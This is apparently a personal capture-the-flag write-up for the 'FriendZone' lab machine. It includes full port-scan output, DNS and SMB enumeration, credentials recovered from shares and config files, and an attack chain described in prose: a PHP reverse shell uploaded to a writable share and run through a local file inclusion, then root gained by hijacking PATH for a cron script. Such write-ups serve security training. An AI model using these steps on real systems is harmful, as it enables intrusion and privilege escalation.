## RUSTSCAN:
`PORT    STATE SERVICE     REASON         VERSION
21/tcp  open  ftp         syn-ack ttl 63 vsftpd 3.0.3
22/tcp  open  ssh         syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a96824bc971f1e54a58045e74cd9aaa0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC4/mXYmkhp2syUwYpiTjyUAVgrXhoAJ3eEP/Ch7omJh1jPHn3RQOxqvy9w4M6mTbBezspBS+hu29tO2vZBubheKRKa/POdV5Nk+A+q3BzhYWPQA+A+XTpWs3biNgI/4pPAbNDvvts+1ti+sAv47wYdp7mQysDzzqtpWxjGMW7I1SiaZncoV9L+62i+SmYugwHM0RjPt0HHor32+ZDL0hed9p2ebczZYC54RzpnD0E/qO3EE2ZI4pc7jqf/bZypnJcAFpmHNYBUYzyd7l6fsEEmvJ5EZFatcr0xzFDHRjvGz/44pekQ40ximmRqMfHy1bs2j+e39NmsNSp6kAZmNIsx
|   256 e5440146ee7abb7ce91acb14999e2b8e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOPI7HKY4YZ5NIzPESPIcP0tdhwt4NRep9aUbBKGmOheJuahFQmIcbGGrc+DZ5hTyGDrvlFzAZJ8coDDUKlHBjo=
|   256 004e1a4f33e8a0de86a6e42a5f84612b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIF+FZS11nYcVyJgJiLrTYTIy3ia5QvE3+5898MfMtGQl
53/tcp  open  domain      syn-ack ttl 63 ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Friend Zone Escape software
139/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    syn-ack ttl 63 Apache httpd 2.4.29
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO/organizationalUnitName=CODERED/emailAddress=haha@friendzone.red/localityName=AMMAN
| Issuer: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO/organizationalUnitName=CODERED/emailAddress=haha@friendzone.red/localityName=AMMAN
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-10-05T21:02:30
| Not valid after:  2018-11-04T21:02:30
| MD5:   c14418685e8b468dfc7d888b1123781c
| SHA-1: 88d2e8ee1c2cdbd3ea552e5ecdd4e94c4c8b9233
| -----BEGIN CERTIFICATE-----
| MIID+DCCAuCgAwIBAgIJAPRJYD8hBBg0MA0GCSqGSIb3DQEBCwUAMIGQMQswCQYD
| VQQGEwJKTzEQMA4GA1UECAwHQ09ERVJFRDEOMAwGA1UEBwwFQU1NQU4xEDAOBgNV
| BAoMB0NPREVSRUQxEDAOBgNVBAsMB0NPREVSRUQxFzAVBgNVBAMMDmZyaWVuZHpv
| bmUucmVkMSIwIAYJKoZIhvcNAQkBFhNoYWhhQGZyaWVuZHpvbmUucmVkMB4XDTE4
| MTAwNTIxMDIzMFoXDTE4MTEwNDIxMDIzMFowgZAxCzAJBgNVBAYTAkpPMRAwDgYD
| VQQIDAdDT0RFUkVEMQ4wDAYDVQQHDAVBTU1BTjEQMA4GA1UECgwHQ09ERVJFRDEQ
| MA4GA1UECwwHQ09ERVJFRDEXMBUGA1UEAwwOZnJpZW5kem9uZS5yZWQxIjAgBgkq
| hkiG9w0BCQEWE2hhaGFAZnJpZW5kem9uZS5yZWQwggEiMA0GCSqGSIb3DQEBAQUA
| A4IBDwAwggEKAoIBAQCjImsItIRhGNyMyYuyz4LWbiGSDRnzaXnHVAmZn1UeG1B8
| lStNJrR8/ZcASz+jLZ9qHG57k6U9tC53VulFS+8Msb0l38GCdDrUMmM3evwsmwrH
| 9jaB9G0SMGYiwyG1a5Y0EqhM8uEmR3dXtCPHnhnsXVfo3DbhhZ2SoYnyq/jOfBuH
| gBo6kdfXLlf8cjMpOje3dZ8grwWpUDXVUVyucuatyJam5x/w9PstbRelNJm1gVQh
| 7xqd2at/kW4g5IPZSUAufu4BShCJIupdgIq9Fddf26k81RQ11dgZihSfQa0HTm7Q
| ui3/jJDpFUumtCgrzlyaM5ilyZEj3db6WKHHlkCxAgMBAAGjUzBRMB0GA1UdDgQW
| BBSZnWAZH4SGp+K9nyjzV00UTI4zdjAfBgNVHSMEGDAWgBSZnWAZH4SGp+K9nyjz
| V00UTI4zdjAPBgNVHRMBAf8EBTADAQH/MA0GCSqGSIb3DQEBCwUAA4IBAQBV6vjj
| TZlc/bC+cZnlyAQaC7MytVpWPruQ+qlvJ0MMsYx/XXXzcmLj47Iv7EfQStf2TmoZ
| LxRng6lT3yQ6Mco7LnnQqZDyj4LM0SoWe07kesW1GeP9FPQ8EVqHMdsiuTLZryME
| K+/4nUpD5onCleQyjkA+dbBIs+Qj/KDCLRFdkQTX3Nv0PC9j+NYcBfhRMJ6VjPoF
| Kwuz/vON5PLdU7AvVC8/F9zCvZHbazskpy/quSJIWTpjzg7BVMAWMmAJ3KEdxCoG
| X7p52yPCqfYopYnucJpTq603Qdbgd3bq30gYPwF6nbHuh0mq8DUxD9nPEcL8q6XZ
| fv9s+GxKNvsBqDBX
|_-----END CERTIFICATE-----
|_http-server-header: Apache/2.4.29 (Ubuntu)
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: 404 Not Found
445/tcp open  netbios-ssn syn-ack ttl 63 Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.16 (95%), Linux 3.18 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.1 (93%), Linux 3.2 (93%), Linux 3.10 - 4.11 (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Linux 3.12 (93%), Linux 3.13 (93%)
No exact OS matches for host (test conditions non-ideal).

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: -39m59s, deviation: 1h09m16s, median: 0s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 60332/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 8782/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 35310/udp): CLEAN (Failed to receive data)
|   Check 4 (port 37865/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| Names:
|   FRIENDZONE<00>       Flags: <unique><active>
|   FRIENDZONE<03>       Flags: <unique><active>
|   FRIENDZONE<20>       Flags: <unique><active>
|   \x01\x02__MSBROWSE__\x02<01>  Flags: <group><active>
|   WORKGROUP<00>        Flags: <group><active>
|   WORKGROUP<1d>        Flags: <unique><active>
|   WORKGROUP<1e>        Flags: <group><active>
| Statistics:
|   0000000000000000000000000000000000
|   0000000000000000000000000000000000
|_  0000000000000000000000000000
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2023-01-27T12:32:26
|_  start_date: N/A
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2023-01-27T14:32:26+02:00
`
* * *
## FTP:
Let's try to check what can we get as Guest user??


Nothing sofar, we may wanna come back later...
* * *
## SSH:
Nothing without a proper username and password.
* * *
## DNS:
Let's try to query some dnsses?


Nope, nor any query nor a zone transfer.
Now with the right DN we get more informations:


We can try do a Zone transfer and we find more stuff:


Using the domain found in the SSL CN of the port 443 we get other domains:


So far the only good results are this:



* * *
## SMB:
We can try to run Enum4linux and we have some shares:
`[+] Attempting to map shares on friendzone
//friendzone/print$     Mapping: DENIED Listing: N/A Writing: N/A
//friendzone/Files      Mapping: DENIED Listing: N/A Writing: N/A
//friendzone/general    Mapping: OK Listing: OK Writing: N/A
//friendzone/Development        Mapping: OK Listing: OK Writing: N/A`

And some users:
`[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\friend (Local User)
[+] Enumerating users using SID S-1-5-21-3651157261-4258463691-276428382 and logon username '', password ''
S-1-5-21-3651157261-4258463691-276428382-501 FRIENDZONE\nobody (Local User)
S-1-5-21-3651157261-4258463691-276428382-513 FRIENDZONE\None (Domain Group)`

Can we map those SHARES??

We can get some credentials from general..
But nothing from Development.

Seems like we have creds fro the Admin portal:
`┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# cat creds.txt
creds for the admin THING:

admin:WORKWORKHhallelujah@#`

* * *
## HTTP:
Loggin into website can help us to find the real FQDN of the website?

Let's add it to our hosts file and try to dig dns again with the new Domain.'
Seems like so far the only legit subdomain is the Admin portal:


Seems like we need to fuzz for pages:


Could it be a rabbithole? Let's move forward to HTTPS for now...
* * *
## HTTPS:
We can see that HTTPS is poining to friendzone.red from the SSL certificate, and checking the HTML sourcecode we can see something interesting:


`
Testing some functions !

I'am trying not to break things !
Y3FCQnk5aUthVjE2NzQ4MjQ5MDVoS0hhQzVjS1pT<!-- dont stare too much , you will be smashed ! , it's all about times and zones ! -->`

Now i went back to DNS zone transfer ant tried to use friendzone.red instead.
Coming back here we can try to login to the last admin portal@ http://administrator1.friendzone.red:


Going to dashboard.php:


Umh this smells like LFI...
Now running the suggested query(?image_id=a.jpg&pagename=timestamp):


now can we try to see if we can read some php files, so I tried and seems like the parameter that is LFI is the pagename, i tried to call dashboard.php and it didn't worket but when i tried pagename=dashboard the page crashed. This means that php script add the php format at the end.

here i had to check for tips and apparently i missed during SMB share enumeration:


From share description we can assume that shares are saved in /etc/sharename. 
Now what i have missed to try was if i had write permissions on general/Development and guess what?!? i had that on development:


Having our php revshell in SMB share /Development we can guess that pointing the pagename=/etc/Development/shell
So let's try it:


Si Senor:


* * *
## USER.TXT
Now stabilizyng a shell and moving thru all files i see some DB config:
`www-data@FriendZone:/var/www$ cat  mysql_data.conf
cat  mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ`

Can it be same for ssh user?


yes so now we can upload a Linpeas and check for privesc..

* * *
## ROOT.TXT
Now i tried to read whole report from linpeas but got anything juicy so standing what is about Scheduled jobs i  guess we can try to upload and run PSPY to see any scheduled jobs that may be running as Root and we can't read as Friend user:


Now we know we must do something with path in order to exploit this python script...

We can't edit the script but we see that script is calling binary mailsend whithout absolute path, can we exploit this?
We must first add a file somewhere ex. /tmp
Call in mailsend and inglobe our revshell payload(bash).
Add the folder to $PATH and way for the magic!

